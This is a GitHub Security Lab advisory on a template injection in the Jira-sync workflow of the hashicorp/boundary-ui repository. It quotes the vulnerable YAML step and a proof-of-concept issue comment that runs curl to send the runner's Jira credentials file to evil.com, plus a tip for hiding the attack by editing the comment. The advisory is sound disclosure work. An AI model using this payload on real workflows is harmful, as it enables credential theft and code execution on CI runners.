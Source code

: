 <header class="post-header d-block mb-6">
      <div class="date text-mono f5 my-3">December 3, 2020</div>
      <h1 class="my-2 h00-mktg lh-condensed">GHSL-2020-207: Template injection in a GitHub workflow of repository hashicorp/boundary-ui</h1>

      
      
      
      
      

      

      <a target="_blank" class="sc-frDJqD SgxRc d-inline-flex flex-row flex-items-center text-gray" href="https://github.com/jarlob">
        <img class="mr-3" src="https://avatars.githubusercontent.com/u/26652396?s=35" height="35" width="35">
        <span>Jaroslav Lobacevski</span>
      </a>
    </header>

    <main id="content" class="markdown-body" aria-label="Content">
      <h2 id="summary">Summary</h2>

<p>Automatic GitHub workflow in <a href="https://github.com/hashicorp/boundary-ui">hashicorp/boundary-ui</a> repository is vulnerable to template injection from user comments.</p>

<h2 id="product">Product</h2>

<p><a href="https://github.com/hashicorp/boundary-ui">hashicorp/boundary-ui</a> repository</p>

<h2 id="tested-version">Tested Version</h2>

<p>Main branch.</p>

<h2 id="details">Details</h2>

<h3 id="issue-hidden-expression-expansion-of-input-parameters-passed-to-atlassiangajira-comment">Issue: Hidden expression expansion of input parameters passed to <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code></h3>

<p><a href="https://github.com/hashicorp/boundary-ui/blob/main/.github/workflows/jira.yml"><code class="language-plaintext highlighter-rouge">Sync comment</code> step in jira.yml</a> workflow is vulnerable to template injection.</p>

<p>The <code class="language-plaintext highlighter-rouge">${{ github.event.comment.body }}</code> is used to format input values to <code class="language-plaintext highlighter-rouge">atlassian/gajira-comment</code> action:</p>

<div class="language-yaml highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="pi">-</span> <span class="na">name</span><span class="pi">:</span> <span class="s">Sync comment</span>
  <span class="na">if</span><span class="pi">:</span> <span class="s">github.event.action == 'created' &amp;&amp; steps.search.outputs.issue</span>
  <span class="na">uses</span><span class="pi">:</span> <span class="s">atlassian/gajira-comment@v2.0.1</span>
  <span class="na">with</span><span class="pi">:</span>
    <span class="na">issue</span><span class="pi">:</span> <span class="s">${{ steps.search.outputs.issue }}</span>
    <span class="na">comment</span><span class="pi">:</span> <span class="s2">"</span><span class="s">${{</span><span class="nv"> </span><span class="s">github.actor</span><span class="nv"> </span><span class="s">}}</span><span class="nv"> </span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.review.state</span><span class="nv"> </span><span class="s">||</span><span class="nv"> </span><span class="s">'commented'</span><span class="nv"> </span><span class="s">}}:</span><span class="se">\n\n</span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.comment.body</span><span class="nv"> </span><span class="s">||</span><span class="nv"> </span><span class="s">github.event.review.body</span><span class="nv"> </span><span class="s">}}</span><span class="se">\n\n</span><span class="s">${{</span><span class="nv"> </span><span class="s">github.event.comment.html_url</span><span class="nv"> </span><span class="s">||</span><span class="nv"> </span><span class="s">github.event.review.html_url</span><span class="nv"> </span><span class="s">}}"</span>
</code></pre></div></div>

<p>However the Atlassian action has a hidden feature - it expands <code class="language-plaintext highlighter-rouge">{{}}</code> internally. This way when the comment body contains an expression in double curly braces it is evaluated by node.js in these actions.</p>

<h4 id="impact">Impact</h4>

<p>This vulnerability allows for arbitrary code execution in the context of GitHub runner. For example a user may comment on an issue with:</p>

<div class="language-js highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="p">{{</span> <span class="nx">process</span><span class="p">.</span><span class="nx">mainModule</span><span class="p">.</span><span class="nx">require</span><span class="p">(</span><span class="dl">'</span><span class="s1">child_process</span><span class="dl">'</span><span class="p">).</span><span class="nx">exec</span><span class="p">(</span><span class="s2">`curl -d @</span><span class="p">${</span><span class="nx">process</span><span class="p">.</span><span class="nx">env</span><span class="p">.</span><span class="nx">HOME</span><span class="p">}</span><span class="s2">/.jira.d/credentials http://evil.com`</span><span class="p">)</span> <span class="p">}}</span>
</code></pre></div></div>

<p>which will exfiltrate the secret Jira API token to the attacker controlled server. To make the attack less visible an attacker may modify the comment to <code class="language-plaintext highlighter-rouge">Never mind my bad</code>.</p>

<h2 id="coordinated-disclosure-timeline">Coordinated Disclosure Timeline</h2>

<ul>
  <li>10/29/2020: Report sent to vendor</li>
  <li>10/29/2020: Vendor acknowledges the issue</li>
  <li>10/29/2020: Vendor remediates the issue</li>
</ul>

<h2 id="credit">Credit</h2>

<p>This issue was discovered and reported by GHSL team member <a href="https://github.com/JarLob">@JarLob (Jaroslav Lobačevski)</a>.</p>

<h2 id="contact">Contact</h2>

<p>You can contact the GHSL team at <code class="language-plaintext highlighter-rouge">securitylab@github.com</code>, please include a reference to <code class="language-plaintext highlighter-rouge">GHSL-2020-207</code> in any communication regarding this issue.</p>

   